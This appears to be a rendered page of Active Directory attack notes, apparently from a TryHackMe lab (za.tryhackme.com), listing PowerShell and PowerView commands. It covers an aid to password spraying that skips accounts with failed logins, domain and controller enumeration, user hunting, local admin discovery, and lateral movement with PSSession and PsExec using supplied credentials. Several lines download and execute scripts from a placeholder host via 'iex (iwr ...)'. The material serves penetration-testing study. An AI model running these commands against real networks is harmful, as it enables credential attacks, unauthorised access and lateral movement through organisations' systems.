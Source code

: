 * To perform an assertive password spraying attack, you can enumerate accounts that have badPwdCount greater than 0 and avoid them during the attack.
```
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com (ADModule)
```

* Search for AD object that was changed on a specific date
```
$ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
```

* Get info from Domain Policies
```
Get-DomainPolicy (PowerView)
```

* Get domain controllers from current domain  
```
Get-NetDomainController (PowerView)
Get-ADDomainController (AD Module)
```

* User Hunting - finds machines on the domain where specified users are logged into, and can optionally check if the current user has local admin access to found machines
```
iex (iwr http://<ip>/PowerView.ps1 -UseBasicParsing)
Invoke-UserHunter
Invoke-UserHunter -Stealth
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -GroupName "<group>" (PowerView)
Get-NetSession -ComputerName <domain> (validate access) (PowerView)
```

* Local Admin Access from all machines and PSSession stateless and stateful
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -UseBasicParsing)
iex (iwr http://<file_server_IP>/Find-PSRemotingLocalAdminAccess.ps1 -UseBasicParsing)
iex (iwr http://<file_server_IP>/Find-WMILocalAdminAccess.ps1 -UseBasicParsing)
Invoke-CheckLocalAdminAccess  
Find-LocalAdminAccess  
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
. .\Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```
```
Invoke-Command -ScriptBlock {whoami} -ComputerName <hostname> 
Enter-PSSession -ComputerName <hostname>
```
or  
```
$sess = New-PSSession -ComputerName <hostname>
Enter-PSSession $sess
```
or  
* PsExec64.exe  
```
PsExec64.exe \\<hostname>.<domain> -u <domain>\user -p <password> cmd
```
